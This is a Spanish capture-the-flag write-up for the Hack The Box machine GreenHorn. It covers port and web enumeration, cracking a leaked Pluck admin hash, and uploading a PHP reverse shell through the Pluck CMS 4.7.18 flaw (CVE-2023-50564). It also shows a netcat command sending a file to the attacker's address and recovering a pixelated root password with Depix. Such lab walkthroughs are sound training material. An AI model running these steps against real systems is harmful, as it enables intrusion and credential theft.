






# GreenHorn

`GreenHorn` es una máquina de dificultad fácil que aprovecha un exploit en `Pluck` para lograr la ejecución remota de código y luego demuestra los peligros de las credenciales pixeladas.

La máquina también demuestra que debemos tener cuidado al compartir configuraciones de código abierto para asegurarnos de no revelar archivos que contengan contraseñas u otra información que deba mantenerse confidencial.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con `Nmap` para ver los puertos que están expuestos en la máquina **`GreenHorn`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.11.25 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-16 16:46 CET
Nmap scan report for 10.10.11.25
Host is up (0.080s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 30.74 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.25
	[*] Open ports: 22,80,3000

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato `oN` y `oX` para posteriormente trabajar con ellos. Verificamos que al parecer se trata de una máquina Ubuntu que dispone de unas página de `Nginx` y `Golang` y del protocolo SSH.

```bash
❯ nmap -sCV -p22,80,3000 10.10.11.25 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-16 16:47 CET
Nmap scan report for 10.10.11.25
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
3000/tcp open  http    Golang net/http server
|_http-title: GreenHorn
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=fcf888ccd94405c1; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=fbrKm2gVazDCt8Ur9XirZxSK1b46MTczNzA0MjY0MzkxNTk1MDQ3Mg; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 16 Jan 2025 15:50:43 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=f724ac136d83d552; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=163xxrp2hrq83r8kbTEoZhiO1pk6MTczNzA0MjY0NDc0MTU5MDgyNw; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 16 Jan 2025 15:50:44 GMT
|_    Content-Length: 0
...[snip]...
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   138.67 ms 10.10.16.1
2   138.70 ms 10.10.11.25

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.47 seconds
```

Procederemos a transformar el archivo generado `targetedXML` para transformar el `XML` en un archivo `HTML` para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`, debido a que en el resultado de `Nmap`, nos aparecía que el sitio web nos redirigía a [http://greenhorn.htb](http://greenhorn.htb).

```bash
❯ cat /etc/hosts | grep greenhorn.htb
10.10.11.25 greenhorn.htb
```

## Web Enumeration

A través de la herramienta `whatweb` revisaremos las tecnologías que utiliza el sitio web.

```bash
❯ whatweb http://greenhorn.htb
http://greenhorn.htb [302 Found] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.25], RedirectLocation[http://greenhorn.htb/?file=welcome-to-greenhorn], nginx[1.18.0]
http://greenhorn.htb/?file=welcome-to-greenhorn [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.25], MetaGenerator[pluck 4.7.18], Pluck-CMS[4.7.18], Title[Welcome to GreenHorn ! - GreenHorn], nginx[1.18.0]
```

Al acceder a [http://greenhorn.htb](http://greenhorn.htb) verificaremos el contenido del sitio web, aparentemente no hay ningún tipo de información que nos pueda servir más adelante.

<figure><figcaption></figcaption></figure>

Al realizar una enumeración de directorios en el sitio web, tampoco logramos obtener resultados.

```bash
❯ dirsearch -u http://greenhorn.htb 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/GreenHorn/GreenHorn/content/reports/http_greenhorn.htb/_25-01-16_16-55-33.txt

Target: http://greenhorn.htb/

[16:55:33] Starting: 
[16:55:35] 200 -   93B  - /+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
[16:55:35] 200 -   93B  - /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
[16:55:36] 404 -  564B  - /.css
[16:55:37] 404 -  564B  - /.gif
[16:55:37] 404 -  564B  - /.ico
[16:55:38] 404 -  564B  - /.jpg
[16:55:38] 404 -  564B  - /.jpeg
...[snip]...
```

Al realizar `fuzzing` para encontrar posibles subdominios en el sitio web, en el resultado obtenido, todas las respuestas nos devolvían `154 Ch`.

```bash
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.greenhorn.htb" http://greenhorn.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://greenhorn.htb/
Total requests: 220545

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                              
=====================================================================

000000001:   302        7 L      10 W       154 Ch      "index"                                                                                                                                                              
000000046:   302        7 L      10 W       154 Ch      "03"                                                                                                                                                                 
000000003:   302        7 L      10 W       154 Ch      "download"                                                                                                                                                           
000000006:   302        7 L      10 W       154 Ch      "crack"                                                                                                                                                              
000000025:   302        7 L      10 W       154 Ch      "img"                                                                                                                                                                
000000005:   302        7 L      10 W       154 Ch      "news"                                                                                                                                                               
...[snip]...     
```

Por lo tanto, en el siguiente escaneo con `wfuzz`, procedimos a ocultar estos resultados, obteniendo tampoco ningún resultado sobre algún posible subdominio en el sitio web del puerto 80.

```bash
❯ wfuzz -c --hc=404 --hh=154 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.greenhorn.htb" http://greenhorn.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://greenhorn.htb/
Total requests: 220545

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                              
=====================================================================


Total time: 289.2563
Processed Requests: 220545
Filtered Requests: 220545
Requests/sec.: 762.4551
```

Procedimos a intentar buscar posibles páginas con extensiones `PHP` y en este caso si obtuvimos algunos resultados interesantes.

```bash
❯ gobuster dir -u http://greenhorn.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php -b 404,302
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://greenhorn.htb/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,302
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 1242]
/images               (Status: 301) [Size: 178] [--> http://greenhorn.htb/images/]
/docs                 (Status: 301) [Size: 178] [--> http://greenhorn.htb/docs/]
/files                (Status: 301) [Size: 178] [--> http://greenhorn.htb/files/]
/data                 (Status: 301) [Size: 178] [--> http://greenhorn.htb/data/]
/admin.php            (Status: 200) [Size: 4026]
/install.php          (Status: 200) [Size: 4035]
/requirements.php     (Status: 200) [Size: 4047]
...[snip]...
```

Al proceder a acceder a [http://greenhorn.htb/admin.php](http://greenhorn.htb/admin.php), verificamos que hemos sido redirigidos a la página [http://greenhorn.htb/login.php](http://greenhorn.htb/login.php) el cual nos mostraba el siguiente panel de inicio de sesión.

De momento no disponemos de credenciales válidas para intentar acceder.

<figure><figcaption></figcaption></figure>

### Information Leakage (admin password in a configuration file)

En el sitio web del puerto 80 no logramos de momento encontrar nada interesante. Por lo tanto, procedimos a probar de enumerar el puerto 3000 y verificamos que se trata de un sitio web de Gitea.

```bash
❯ whatweb http://greenhorn.htb:3000
http://greenhorn.htb:3000 [200 OK] Cookies[_csrf,i_like_gitea], Country[RESERVED][ZZ], HTML5, HttpOnly[_csrf,i_like_gitea], IP[10.10.11.25], Meta-Author[Gitea - Git with a cup of tea], Open-Graph-Protocol[website], PoweredBy[Gitea], Script, Title[GreenHorn], X-Frame-Options[SAMEORIGIN]
```

Al acceder a [http://greenhorn.htb:3000](http://greenhorn.htb:3000), verificamos que efectivamente se trata de un sitio web de Gitea.


Gitea es un paquete de software de código abierto para alojar el control de versiones de desarrollo de software utilizando Git, así como otras funciones de colaboración como el seguimiento de errores y los wikis


<figure><figcaption></figcaption></figure>

Procederemos  registrarnos en el sitio web para ver si disponemos de algún tipo de información interesante en el Gitea.

<figure><figcaption></figcaption></figure>

Al acceder al apartado de `Explore`, verificamos que existe un repositorio llamado `GreenAdmin / GreenHorn`. Procederemos a acceder al repositorio en busca de información.

<figure><figcaption></figcaption></figure>

Revisamos que en el archivo `login.php` aparece la ruta `data/settings/pass.php`de lo que parece ser la contraseña del CMS Pluck que encontramos anteriormente.&#x20;

<figure><figcaption></figcaption></figure>

Al acceder a la ruta mencionada, verificamos que aparece una contraseña en formato hash.

<figure><figcaption></figcaption></figure>

Al revisar el tipo de hash, parece indicarnos que se trata de un hash `SHA-521`, el cual mediante la herramientade de `hashcat` logramos crackear el hash y obtener la contraseña en texto plano.

```bash
❯ hashid d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163
Analyzing 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163'
[+] SHA-512 
[+] Whirlpool 
[+] Salsa10 
[+] Salsa20 
[+] SHA3-512 
[+] Skein-512 
[+] Skein-1024(512) 

❯ hashcat -a 0 -m 1700 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...[snip]...
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163:iloveyou1
...[snip]...
```

Al volver a acceder a [http://greenhorn.htb/login.php](http://greenhorn.htb/login.php) e ingresar la contraseña del usuario `admin` verificamos que nos marca como credenciales válidas.

<figure><figcaption></figcaption></figure>

## Initial Access

### Pluck CMS 4.7.18 Exploitation - Remote Code Execution (CVE-2023-50564)

Revisamos que hemos ganado acceso al panel de administración del CMS Pluck. También verificamos que en el footer del sitio web, nos aparece la versión del CMS.


Pluck es un sistema de gestión de contenido (CMS) pequeño y sencillo, escrito en PHP . Con Pluck, puedes gestionar fácilmente tu propio sitio web. Pluck se centra en la simplicidad y la facilidad de uso. Esto hace que Pluck sea una excelente opción para cualquier sitio web pequeño.


<figure><figcaption></figcaption></figure>

Realizando una búsqueda por Internet de posibles vulnerabilidades de la versión del CMS; nos encontramos con el siguiente `CVE-2023-50564`.




Una vulnerabilidad de carga de archivos arbitrarios en el componente /inc/modules\_install.php de Pluck-CMS v4.7.18 permite a los atacantes ejecutar código arbitrario cargando un archivo ZIP manipulado.


Por otro lado, también nos encontramos con el siguiente repositorio de GitHub el cual nos proporciona el exploit para aprovecharnos de la vulnerabilidad. Procederemos a clonarnos el repositorio en nuestro equipo local.



```bash
❯ git clone https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC.git; cd CVE-2023-50564_Pluck-v4.7.18_PoC
Clonando en 'CVE-2023-50564_Pluck-v4.7.18_PoC'...
remote: Enumerating objects: 28, done.
remote: Counting objects: 100% (28/28), done.
remote: Compressing objects: 100% (28/28), done.
remote: Total 28 (delta 11), reused 3 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (28/28), 12.71 KiB | 591.00 KiB/s, listo.
Resolviendo deltas: 100% (11/11), listo.
```

Revisando las instrucciones del exploit, verificamos que lo que trata de realizar es subir un comprimido `.zip` con una Reverse Shell en PHP para explotar la vulnerabilidad y obtener un RCE (Remote Code Execution) y lograr acceso completo a la máquina.

<figure><figcaption></figcaption></figure>

Procederemos a editar el archivo `poc.py` y modificaremos las variables por las correctas, indicando el hostname `greenhorn.htb` y las credenciales de usuario `admin`.

<figure><figcaption></figcaption></figure>

Por otro lado, procederemos a utilizar la siguiente Reverse Shell PHP de `pentestmonkey`.



Editaremos el archivo de la Reverse Shell PHP con nuestra dirección IP de atacante y el puerto por donde estaremos en escucha con `nc`.

<figure><figcaption></figcaption></figure>

En una terminal nueva, procederemos a ponernos en escucha por el puerto especificado en la Reverse Shell de PHP.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Procederemos  comprimir el archivo `shell.php` en un comprimido llamado `payload.zip`. Procederemos a explotar la vulnerabilidad indicándole la ruta donde se encuentra el `.zip` malicioso.

```bash
❯ zip payload.zip shell.php
updating: shell.php (deflated 72%)
❯ ls -l
.rw-rw-r-- kali kali 1.0 KB Thu Jan 16 17:43:32 2025  LICENSE
.rw-rw-r-- kali kali 2.7 KB Thu Jan 16 18:01:09 2025  payload.zip
.rwxrwxr-x kali kali 1.6 KB Thu Jan 16 17:48:32 2025  poc.py
.rw-rw-r-- kali kali 1.8 KB Thu Jan 16 17:43:32 2025  README.md
.rw-rw-r-- kali kali 9.3 KB Thu Jan 16 17:57:11 2025  shell.php
❯ pwd
/HackTheBox/Linux/GreenHorn/content/CVE-2023-50564_Pluck-v4.7.18_PoC
❯ python poc.py
ZIP file path: /HackTheBox/Linux/GreenHorn/content/CVE-2023-50564_Pluck-v4.7.18_PoC/payload.zip
Login successful
ZIP file uploaded successfully.
```

Verificaremos que en nuestra terminal de `nc` hemos recibido correctamente la Reverse Shell y ya disponemos de acceso a la máquina víctima. Verificamos que nos encontramos con un usuario sin privilegios: `www-data`

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.25] 50182
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:08:42 up  1:24,  0 users,  load average: 0.10, 0.24, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1097): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:/$
```

Revisando el archivo `/etc/passwd`, verificamos que el usuario `junior` disponía de una bash. Probaremos de autenticarnos con las credenciales del usuario `admin` del `Pluck` (iloveyou1) para probar si esta contraseña es reutilizada. Logramos tener acceso como el usuario `junior` y visualizar la flag **user.txt**.

```bash
www-data@greenhorn:/$ su junior
Password: 
junior@greenhorn:/t$ whoami
junior
junior@greenhorn:~$ cat user.txt
0f37429764508b275b**************
```

## Privilege Escalation

Revisando el directorio `/home/junior`, verificamos que dispone de un archivo PDF.

Para transferirnos este archivo en nuestro equipo local, procederemos a ponernos en escucha con `nc` y a redirigir la conexión entrante a un archivo llamado `UsingOpenVAS.pdf`.

```bash
❯ nc -nlvp 443 > UsingOpenVAS.pdf
listening on [any] 443 ...
```

Por parte de la máquina víctima, procederemos a enviar el archivo PDF a través de `nc` a la dirección IP nuestra de atacante por el puerto especificado y indicándole que transfiera el archivo PDF.

```bash
junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'
junior@greenhorn:~$ nc -w 3 10.10.16.5 443 < 'Using OpenVAS.pdf'
```

Verificamos que logramos transferir el archivo a nuestro equipo local.

```bash
❯ nc -nlvp 443 > UsingOpenVAS.pdf
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.25] 59936
❯ ls -l UsingOpenVAS.pdf
.rw-rw-r-- kali kali 60 KB Thu Jan 16 18:40:23 2025  UsingOpenVAS.pdf
```

### Making a pixelated password image visible (Depix)

Revisando el PDF obtenido, verificamos que es un PDF dirigido al usuario `junior` en el cual le indican lo que parecen ser las credenciales del usuario `root`, pero estas se encuentran pixeladas.

<figure><figcaption></figcaption></figure>

En GitHub nos encontramos con la siguiente herramienta de Python que lo que realiza es intentar convertir la imagen pixelada en la imagen original.



A través del comando `pdfimages` convertiremos el PDF en un archivo PPM. Seguidamente procederemeos a utilizar la herramienta de `Depix.py` para convertir la imagen pixelada en su formato original.


Los PPM son archivos rasterizados, es decir, archivos que utilizan píxeles de colores para representar la información visual y que suelen almacenar fotografías digitales.


```bash
❯ pdfimages UsingOpenVAS.pdf greenhorn
❯ ls -l greenhorn-000.ppm
.rw-rw-r-- kali kali 18 KB Thu Jan 16 19:54:34 2025  greenhorn-000.ppm
❯ python3 /opt/Depix/depix.py -p greenhorn-000.ppm -s /opt/Depix/images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o result.png
2025-01-16 19:55:11,676 - Loading pixelated image from greenhorn-000.ppm
2025-01-16 19:55:11,689 - Loading search image from /opt/Depix/images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2025-01-16 19:55:12,421 - Finding color rectangles from pixelated space
2025-01-16 19:55:12,422 - Found 252 same color rectangles
2025-01-16 19:55:12,422 - 190 rectangles left after moot filter
2025-01-16 19:55:12,422 - Found 1 different rectangle sizes
2025-01-16 19:55:12,422 - Finding matches in search image
2025-01-16 19:55:12,423 - Scanning 190 blocks with size (5, 5)
2025-01-16 19:55:12,462 - Scanning in searchImage: 0/1674
2025-01-16 19:56:08,709 - Removing blocks with no matches
2025-01-16 19:56:08,709 - Splitting single matches and multiple matches
2025-01-16 19:56:08,717 - [16 straight matches | 174 multiple matches]
2025-01-16 19:56:08,717 - Trying geometrical matches on single-match squares
2025-01-16 19:56:09,142 - [29 straight matches | 161 multiple matches]
2025-01-16 19:56:09,142 - Trying another pass on geometrical matches
2025-01-16 19:56:09,464 - [41 straight matches | 149 multiple matches]
2025-01-16 19:56:09,464 - Writing single match results to output
2025-01-16 19:56:09,465 - Writing average results for multiple matches to output
2025-01-16 19:56:12,477 - Saving output image to: result.png
```

Verificamos que en el resultado obtenido, parece ser que hemos logrado obtener la contraseña: `sidefromsidetheothersidefromsidetheotherside`

<figure><figcaption></figcaption></figure>

Probaremos de autenticarnos con el usuario `root` desde la consola que ya teníamos acceso a la máquina. Verificamos que hemos logrado obtener el acceso como usuario `root` y verificar la flag de **root.txt.**

```bash
junior@greenhorn:~$ su root
Password: 
root@greenhorn:/home/junior$ cat /root/root.txt 
ce732e9607f7f20b****************
```
